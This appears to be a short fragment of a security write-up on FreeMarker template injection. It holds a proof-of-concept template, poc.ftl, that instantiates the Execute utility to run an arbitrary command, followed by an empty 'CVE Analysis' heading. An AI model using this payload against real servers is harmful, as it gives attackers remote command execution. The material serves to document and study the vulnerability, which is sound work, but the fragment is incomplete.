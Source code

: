 
## FreeMarker
 ```
 poc.ftl
 <#assign value = "freemarker.template.utility.Execute"?new()> 
 ${value("cmd")}
 ```

## CVE Analysis

